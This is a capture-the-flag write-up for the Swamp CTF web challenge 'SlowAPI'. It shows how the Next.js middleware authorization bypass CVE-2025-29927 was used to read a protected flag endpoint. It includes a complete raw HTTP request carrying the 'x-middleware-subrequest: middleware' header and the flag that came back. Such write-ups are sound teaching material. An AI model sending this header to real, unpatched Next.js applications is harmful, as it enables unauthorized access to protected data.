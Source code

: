 # SlowAPI - Swamp CTF

## Category: Web Exploitation

### Description
The Gator Research Institute requested an application to be developed. To explore new technologies, I decided to base the implementation on Next.js. However, authentication has not yet been implemented, which may allow unauthorized access.

🔗 **Challenge URL:** [http://chals.swampctf.com:43611/](http://chals.swampctf.com:43611/)

### Analysis
Upon visiting the website, an interesting endpoint was discovered:  

```
http://chals.swampctf.com:43611/flag
```

![Screenshot of the denied access](images/slowapi1.png)

Access to this endpoint was denied. Given the challenge description, it was suspected that the application used Next.js. Recent research revealed a Next.js vulnerability, **CVE-2025-29927**, which allows bypassing authorization checks by sending an HTTP request with the `x-middleware-subrequest` header.

### Exploitation
To successfully exploit this vulnerability, the actual API endpoint had to be identified. Using the browser's Developer Tools, the network requests were analyzed, revealing that the flag was located at:

```
/api/protected/flag
```

![Screenshot of Developer Tools](images/slowapi2.png)

Using Burp Suite, an HTTP request was crafted to include the required header:

```
GET /api/protected/flag HTTP/1.1
Host: chals.swampctf.com:43611
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i
x-middleware-subrequest: middleware
```

This bypassed the authorization check, returning the flag.

```
flag":"swampCTF{b3w4r3_th3_m1ddl3w4r3}
```

![Screenshot of Burp Suite Exploit](images/slowapi3.png)
